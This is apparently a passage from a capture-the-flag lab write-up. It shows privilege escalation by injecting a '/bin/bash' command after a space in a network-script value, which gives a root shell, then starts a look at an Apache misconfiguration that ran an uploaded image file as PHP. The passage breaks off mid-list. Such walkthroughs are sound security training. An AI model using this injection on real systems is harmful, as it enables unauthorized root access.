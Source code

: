 ### Shell

What I’ve stumbled upon is an error reported on [seclists](https://seclists.org/fulldisclosure/2019/Apr/24) in April. Anything after a space in a value in a network script where the format is `VARIABLE=value` will be executed. The [response to that disclosure](https://seclists.org/fulldisclosure/2019/Apr/27) was that anyone who can write that file is basically root anyway, so it doesn’t matter.

The regex check at the start of the script prevents me from doing anything too complicated, but it doesn’t prevent me from getting a simple shell:

```

[guly@networked ~]$ sudo /usr/local/sbin/changename.sh
interface NAME:
0xdf
interface PROXY_METHOD:
a /bin/bash
interface BROWSER_ONLY:
b
interface BOOTPROTO:
c
[root@networked network-scripts]# id 
uid=0(root) gid=0(root) groups=0(root)

```

I can now grab `root.txt`:

```

[root@networked ~]# cat root.txt 
0a8ecda8...

```

## Beyond Root - PHP Misconfiguration

In gaining an initial foothold, I uploaded a file `10_10_14_5.php.png`, and the webserver treated it as PHP code and ran it. I shared [this link](https://blog.remirepo.net/post/2013/01/13/PHP-and-Apache-SetHandler-vs-AddHandler) earlier. I wanted to look at the Apache configuration to see how it compared to that in the article.

The Apache config files are stored in`/etc/httpd/`. The main config is `/etc/httpd/conf/httpd.conf`, but it’s last lines are:

```

# Supplemental configuration
#
# Load config files in the "/etc/httpd/conf.d" directory, if any.
IncludeOptional conf.d/*.conf

```

Inside `/etc/http/conf.d`, I’ll find a handful of `.conf` files, include:
